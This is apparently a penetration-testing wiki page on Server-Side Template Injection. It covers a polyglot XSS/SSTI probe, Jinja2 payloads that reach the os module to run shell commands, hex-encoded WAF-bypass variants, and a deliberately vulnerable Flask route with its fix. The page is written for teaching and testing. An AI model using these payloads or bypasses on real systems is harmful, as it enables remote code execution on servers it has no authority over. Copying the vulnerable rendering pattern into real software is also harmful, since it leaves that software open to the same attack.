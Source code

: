 ```yaml
---
authors: ShutdownRepo, p0dalirius, Fantabc
---
```


# 🛠️ SSTI (Server-Side Template Injection)

## Theory

Some web applications rely on template engines to offer dynamic content. When user inputs are embedded in templates, without proper sensitization, the web apps can be vulnerable to SSTIs (Server-Side Template Injections). This is a critical vulnerability that can sometimes lead to Sensitive Information Disclosure, Local File Disclosure and even RCE (Remote Code Execution).

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that might be embedded in templates.

The following payload is used for testing [SQL injections](../../web/inputs/sqli.md), [XSS (Cross-Site Scripting)](../../web/inputs/xss.md) and SSTI (Server-Side Template Injection). The <code>&#123;&#123;7*7&#125;&#125;</code> should be interpreted and changed to `49` by **Jinja2** and **Twig** engines.

```html
'"<svg/onload=prompt(5);>{{7*7}}
```

The following injection methodology can be used to identify the template engine. Is the content modified?

Depending on the template engine in use, testers will be able to fully exploit the SSTI vulnerability.

> [!TIP]
> Many template engines offer a sandboxed mode for intentional template injection (to offer rich functionalities). A server-side template injection can sometimes be a feature and not a vulnerability.

## Creating a payload from scratch

After finding a vulnerable field with a basic payload, the attacker still needs to exploit it. The next step is to find a variable that can be used to access classes, variables or modules to run shell commands and get a RCE. The variables to search for depends on the detected render engine. For example, **Jinja2** has the `request` variable, it may be a good idea to try it first.

If no variable is found, there are always the default string constructor (`''`), the default array constructor (`[]`), the default object constructor (`{}`), etc, to start with.

Whether a variable has been found or using a default constructor, there are 2 main ways to create a payload :

- Reading the source code of the variable / default constructor on Github
- Try it on the fly on a local machine and explore all the properties and methods

To speed up the process, it is often easier to start searching from the result : finding a piece of code in the code base where it is possible to run shell commands and then exploring all the properties and methods of the variable / default constructor to reach this first piece of code.

Searching a payload from scratch is a long way to find a RCE but, unless someone on the Internet already shared a payload, there is no better way to do so.

## Example

> [!NOTE]
> The following example will use Jinja2 as the render engine. However, the method is the same with every render engine.

If the server is known to use Python, chances are it might use **Jinja2** as well to render the HTML. To check if an input is vulnerable to a SSTI, use the following payload :

```py
{{ 7*7 }}
```

Multiple payloads can then be used to get a RCE. To perform a RCE, the goal is to retrieve the `os` module one way or another to execute shell commands from there.

Using the already imported `os` module :

```py
{{ os.popen('id').read() }}
```

Using the `request` variable :

```py
{{ request.application.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

Context independant payloads to get the `os` module by **[Podalirius](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)** :

```py
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

## WAF bypass

The web application may be under a **Web Application Firewall**, protecting a SSTI from abusing the server. However, there are a lot of creative way to bypass its restrictions.

### Bypass `.`

In some language, a property or a method is accessible with brackets, for example :

```js
variable.property == variable['property']
```

Using this is a common way to bypass the `.` filter.

### Bypass `_` and other special property symbols

By combining the previous method with this one, WAF characters blacklist can be bypassed using hexadecimal encoding :

```py
# \x5f is equal to _
{{ request['application']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fimport\x5f\x5f']('os')['popen']('id')['read']() }}
```

Or with the full payload encoded :

```py
# This payload is the same than the previous one
{{ request['\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e']['\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f']['\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f']['\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f']('\x6f\x73')['\x70\x6f\x70\x65\x6e']('\x69\x64')['\x72\x65\x61\x64']() }}
```

## Securing the app as a developer

When programming, it might be useful to know what the code behind a SSTI looks like. The following example uses a Python Flask server running with Jinja2 for easier understanding. However, the concept is the same with every language.

Here is a vulnerable source code.

```py
from flask import Flask, request, render_template_string

# Create the app
app = Flask(__name__)

# Home route
@app.route('/')
def home():
    if request.args.get('user'):
        # Render the 'user' argument
        return render_template_string('Welcome ' + request.args.get('user'))
    else:
        # Default page
        return render_template_string('Hello World!')
```

An attacker can perform a SSTI with the URL :

```
http://<server>/?user={{7*7}}  // Plain text
http://<server>/?user=%7B%7B7*7%7D%7D  // URL encoded
```

The template will then render with the response `Welcome 49`.

To fix the problem, the developer should avoid rendering user input. To include user input in the template, the developer should use variable parameters like the following example.

```py
@app.route('/')
def home():
    if request.args.get('user'):
        return render_template_string('Welcome {{ username }}', username=request.args.get('user'))
    else:
        ...
```

Sometimes, it is not possible due to business conditions. One other way is to add a blacklist with all sensible characters and use a sandboxed environment. However, adding a blacklist is not the most popular option, as it can be easily bypassed.

## Resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)

[https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/](https://podalirius.net/fr/articles/python-vulnerabilities-code-execution-in-jinja-templates/)

[https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
